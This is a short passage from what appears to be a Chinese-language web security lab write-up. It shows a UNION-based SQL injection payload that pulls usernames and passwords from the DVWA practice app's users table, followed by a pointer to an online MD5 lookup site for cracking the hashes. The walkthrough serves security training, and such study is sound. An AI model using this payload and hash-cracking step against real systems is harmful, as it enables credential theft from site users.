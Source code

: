 ![image-20250625145924939](./images/web%E6%9C%9F%E6%9C%AB%E5%AE%9E%E8%AE%AD.assets/image-20250625145924939.png)



⑦获取字段对应数据

```
0' union select user,password FROM dvwa.users #
```

![image-20250625150017130](./images/web%E6%9C%9F%E6%9C%AB%E5%AE%9E%E8%AE%AD.assets/image-20250625150017130.png)



⑧密码解密

```
https://www.cmd5.com/default.aspx
```

